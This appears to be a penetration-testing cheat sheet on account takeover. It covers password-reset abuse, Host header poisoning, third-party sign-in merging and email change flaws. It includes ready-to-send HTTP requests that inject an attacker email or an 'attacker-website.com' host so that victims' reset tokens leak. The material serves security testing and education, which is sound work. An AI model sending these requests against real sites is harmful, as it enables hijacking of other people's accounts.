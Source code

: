 Account takeover allows you to take full control on the user's account.

# Password recovery

Password recovery functionality is often implemented by sending a one-time link to email. 

## Several email addresses

Sometimes you can takeover an account by specifying several email addresses in the password recovery request. For example, if an application is vulnerable to such an attack, on a similar request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```

an application will send the same recovery link to two email addresses.

## Host header poisoning

Applications can use the `Host` header value for generating a password recovery link. If the application is vulnerable to `Host` header poisoning, you could affect the link and specify its own domain name. As a result, if the victim follows the link from the email, the recovery token will leak to the you.

There are several ways to implement `Host` header poisoning.

### X-Forwarded-Host header

The [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host) header is a header for identifying the original host requested by the client in the `Host` request header. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### X-Host header

`X-Host`, like `X-Forwarded-Host`, sometimes is used to identifying the original host. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Several host header

You can try specifying several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Host header replacement

You can try replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

# OAuth 2.0

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities" %}

# Third-party sign-in or sign-up

Applications that implement third party sign-in or sign-up often identify users based on the attached email address that the third party application sends. In such cases, you can try sign-in or sign-up with two different third-party applications that are linked to the same email address. Sometimes these two accounts can be joined and you will have access to the victim's account by sign-in or sign-up with your third-party application account.

For example, suppose a victim sign-in or sign-up to `vulnerable-website.com` with `third-party-app1.com`, which is linked to `victim@website.com`. To exploit this, you can try the following:

1. Create an account at `third-party-app2.com` and enter the `victim@website.com` email address (ideal if email confirmation is not required),
2. Try sign-in or sign-up at `vulnerable-website.com` through `third-party-app2.com`,
3. If the application is vulnerable, then you will have access to the victim's account.

References:

- [Write up: account takeover https://teamplay.qiwi.com](https://hackerone.com/reports/439207)

# Adding or changing email addresses

If the operations of adding a new email address or changing an existing one do not require password confirmation, session hijacking, XSS or CSRF can lead to account takeover.
